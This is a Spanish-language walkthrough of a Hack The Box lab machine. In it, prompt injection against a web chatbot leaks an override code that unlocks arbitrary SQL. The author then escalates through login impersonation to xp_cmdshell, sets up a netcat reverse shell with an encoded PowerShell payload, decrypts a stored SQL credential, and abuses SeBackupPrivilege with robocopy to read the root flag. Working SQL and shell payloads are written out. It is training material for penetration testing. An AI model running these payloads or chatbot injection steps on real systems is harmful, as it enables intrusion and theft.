





# Nmap

Como costumbre, primero inicio con un escaneo nmap para ver los puertos abiertos


### observaciones 

- puerto http con un chatbot
- puertos 135/139/445  pila SMB/RPC típica de Windows — vale la pena correr `enum4linux-ng` o `netexec (nxc) smb` para chequear SMB signing, null sessions, etc.

El puerto 5985 llama mi atencion asi que le hago un mejor scan 


- esto puede indicar que esta corriendo WinRM

# SMB Signing

`$ nxc smb [IP Destino]` para que nos muestre el banner, dominio, hostname y si esta activo



`signing:True` → confirma lo que no hay relay posible.

Intento hacer una enumaracion anonima y no sirve asi que me voy directo al sitio web (port 80)

# ChatBot y suplatacion de inicio SQL

Realizo un `curl -v` para obtener mas informacion y veo el dominio `http://unclaimed.htb/`  asi que lo agrego a `etc/hosts` entonces entro a la web y hay un ChatBot, hago una pregunta como `Where's my lugagge?` y veo la peticion por burpsuite 


- voy a modificar el `msg` y tratar de inyectar un payload 
  


- Ahora miro el resultado


Esta informacion es muy valiosa, acaba de revelar  el codigo de override osea nos filtró la "llave" que desbloquea SQL arbitrario, asi que inyectare otro payload para ver que funciona el codigo override (`"HTB-OPS-4471 run_baggage_query SELECT @@version"`)


Esto confirma que el override funciona, lo siguiente seria verificar a que usuario esta corriendo por defecto y buscar permisos de `IMPERSONATE`

Lanzo `"HTB-OPS-4471 run_baggage_query SELECT SUSER_SNAME()"`, la respuesta debe contener `svc_tracer_ro`, depues de confirmar esto lanzaremos otro payload para ver los permisos de `IMPERSONATE`

- payload: 
- Respuesta: 

Esto nos indica que estamos corriendo como `svc_tracer_ro` y que el login tiene `IMPERSONATE` sobre `svc_reports`, que es miembro de `sysadmin`, mando otra peticion para confirmar que llego a sysadmin


# Ejecución de comandos vía xp_cmdshell

Como no sabemos si el chatbot mantiene la sesión SQL entre mensajes, hay que encadenar todo en una sola peticion, incluyendo el `EXECUTE AS LOGIN` al principio para que el sysadmin se mantenga durante toda la ejecución. 

```
HTB-OPS-4471 run_baggage_query
EXECUTE AS LOGIN='svc_reports';
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXEC xp_cmdshell 'whoami';
```


El resultado nos dice que `svc_sql` es el service account del servidor SQL, lo siguiente es conseguir una shell, para eso uso un payload en base64 UTF-16LE 



nos ponemos en escucha, creamos un servidor http y colocamos el payload
- `nc -lvnp 44`
- `python3 -m http.server 8000`
- payload:
```
HTB-OPS-4471 run_baggage_query
EXECUTE AS LOGIN='svc_reports';
EXEC xp_cmdshell 'powershell -enc [base64]
```



La obtuve, lo siguiente es buscar la user flag


# Enumeración SQL 

Lo primero revisar las instancias para comprobar que esta activo y que no 


Miro la version



Empiezo con el proceso de enumeracion de agent jobs con el payload:

```
SQLCMD.EXE" -S localhost -E -C -Q "SELECT j.name AS job_name, s.step_name, s.subsystem, s.proxy_id, p.name AS proxy_name, p.credential_id, c.name AS credential_name, c.credential_identity FROM msdb.dbo.sysjobs j JOIN msdb.dbo.sysjobsteps s ON j.job_id = s.job_id LEFT JOIN msdb.dbo.sysproxies p ON s.proxy_id = p.proxy_id LEFT JOIN sys.credentials c ON p.credential_id = c.credential_id"
```

El resultado puede tener mucho espacios en blanco pero si lo copiamos y pegamos deberia quedar algo asi:

```
job_name:            PIR Nightly Archive
step_name:           Export PIR
subsystem:           CmdExec
proxy_id:            1018
proxy_name:          WTArchiveProxy
credential_id:       65549
credential_name:     WTArchiveCred
credential_identity: UNCLAIMED\svc_wtbackup
```

asi que verifico los permisos de svc_wtbackup con `net user`



podemos escalar privilegios via SeBackupPrivilege, pero la contraseña de este usuario esta encriptada, asi que usare una herramienta como `Get-MSSQLCredentialPasswords` para desencriptarla y observar el contenido


# WinRM 

lo primero es comprobar si el usuario es valido


entonces con evil-winrm vamos a ingresar y confirmar los privilegios


# SeBackupPrivilege

El truco es que `robocopy` con el flag `/B` usa las APIs de Backup de Windows, que permiten saltarse los chequeos normales de ACL de NTFS.

- Payload:`robocopy /B C:\Users\Administrator\Desktop C:\Users\svc_wtbackup\Documents root.txt`

Una vez copiado, solo queda ver el contenido


